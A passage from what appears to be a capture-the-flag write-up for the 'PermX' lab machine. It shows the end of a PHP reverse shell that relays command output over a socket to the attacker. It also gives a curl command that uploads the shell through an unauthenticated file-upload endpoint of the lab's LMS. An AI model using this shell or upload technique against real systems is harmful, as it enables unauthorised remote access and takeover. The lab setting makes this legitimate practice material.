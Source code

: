 ```
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Time to upload it.

Type:

```
curl -F 'bigUploadFile=@{name of your reverse shell file}.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported' 
```

![shell](./Screenshots/permxrevshell5.png)

File is where it should be.
